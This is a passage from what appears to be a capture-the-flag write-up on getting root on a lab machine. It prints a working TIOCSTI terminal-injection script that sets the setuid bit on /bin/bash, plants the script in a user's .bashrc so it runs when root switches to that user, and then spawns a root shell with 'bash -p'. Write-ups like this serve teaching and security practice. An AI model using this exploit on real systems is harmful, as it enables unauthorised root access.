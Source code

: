 First, we need to create a Python script that will do this for us. Save the script as `exploit.py` and use the simple HTTP server to trasfer it onto the victim machine to the `/dev/shm/` directory:

```python3
#!/usr/bin/env python3
import fcntl
import termios
import os
import sys
import signal

os.kill(os.getppid(), signal.SIGSTOP)

for char in 'chmod +s /bin/bash\n':
    fcntl.ioctl(0, termios.TIOCSTI, char)
```

After the script has been transferred onto the victim machine, we can append a `pythone3` command to run the script to the `.bashrc` file which will run it automatically when the user logs in as `root` using SSH, then switches to `orville`:

```plaintext
echo 'python3 /dev/shm/exploit.py' >> /home/orville/.bashrc
```

After some time, we can check the permissions for `/bin/bash` and it should have the `s` bit set:

```plaintext
ls -lah /bin/bash
```

![e31b0185e4afdeee3d6a7110f35a08fe.png](/resources/c76f63b59f6d47dd89f6e20e158d3fa4.png)

Now when we run `/bin/bash` with the `-p` flag we will have an Effective User ID of `root`:

```plaintext
/bin/bash -p
id
```

![ff2a5e7568d9c1437c58413f0fc45b9b.png](/resources/13a20a0e480f4ea0bb2b979481871f9e.png)

We can find the last flag in `/root/flag3.txt`:

![0898f8f5e3833f657d4fca3f25a1e1ba.png](/resources/db8b567186574ad6a48a51cd1cdcc99c.png)
